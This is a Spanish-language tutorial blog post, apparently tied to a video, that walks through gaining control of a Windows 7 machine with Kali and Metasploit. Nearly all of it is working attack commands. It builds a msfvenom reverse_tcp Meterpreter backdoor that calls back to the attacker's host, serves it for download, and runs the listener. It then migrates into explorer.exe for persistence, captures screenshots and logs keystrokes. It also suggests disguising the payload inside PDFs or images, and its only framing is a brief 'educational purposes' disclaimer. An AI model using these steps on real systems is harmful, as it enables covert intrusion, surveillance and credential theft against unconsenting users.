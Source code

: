 ```yaml
---
title: "Acceso a sistema Windows 7 a traves de Kali y Metasploit"
date: "2020-07-16"
---
```


https://www.youtube.com/watch?v=2WLZKu-c1\_Q

Acceso a un sistema Windows 7 a traves de un backdoor en formato exe.

Explicación de los comandos

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=4444 -f exe > /var/www/html/victim/programa.exe
```

msfvenom : Es una herramienta para crear backdoors

\-p windows/meterpreter/reverse\_tcp : Especifica el payload a usar en este caso reverse\_tcp

LHOST: Indica el host de escucha

LPORT: Indica el puerto de escucha

\-f exe: Indica el formato de salida del backdoor

\>/var/www/html/victim/programa.exe: Especifica la ruta de salida del backdoor

* * *

```
use exploit/multi/handler
```

Ejecuta el script handler, el cual utilizaremos para conectarnos

* * *

```
set payload windows/meterpreter/reverse_tcp
```

Configura el payload que va a usar para conectar al que hemos especificado al crear el backdoor

* * *

```
show options
```

Muestra las opciones que tiene handler para conectarse

* * *

```
set LHOST 192.168.0.107
```

```
 set LPORT 4444
```

Establece el HOST y el PUERTO a los de la maquina que esta a la escucha, en mi caso la maquina atacante con Kali

* * *

```
run
exploit
```

Cualquiera de los dos iniciará handler

* * *

```
sudo apachectl start
```

Inicia el servidor por el cual transfiero los archivos a la maquina con windows 7. En mi caso lo paso como un exe pero este tambien podria ser inyectado en cualquier tipo de archivo que se pueda ejecutar (pdf, jpg, mp4, otro exe,...)

* * *

Cuando el usuario ejecuta el script, este se conecta a la maquina atacante (Kali) y ya esta puede ejecutar comandos

* * *

Comandos que utilizo después de conectar:

```
ps
```

Muestra el arbol de procesos incluyendo el PID que seguidamente utilizamos.

* * *

```
migrate 2120
```

Migra el proceso del backdoor al de explorer.exe, asi se mantendra activo mientras explorer.exe este activo.

* * *

Una vez hecho esto ya tenemos control total sobre la maquina

Otros comandos usados en el video:

Screenshot: Hace una captura de la maquina victima

Sysinfo: Muestra información del ordenador victima

Keyscan: Es el keylogger que incluye meterpreter

- Keyscan\_start: Inicia el keylogger
- Keyscan\_dump: Vuelca lo que tiene registrado el keylogger desde el ultimo dump
- Keyscan\_stop: Detiene el keylogger

Las técnicas y herramientas de hacking mostradas en el articulo y/o en el vídeo son de mi propiedad y expuestas con fines educativos. No me hago responsable del mal uso de l@s mismos
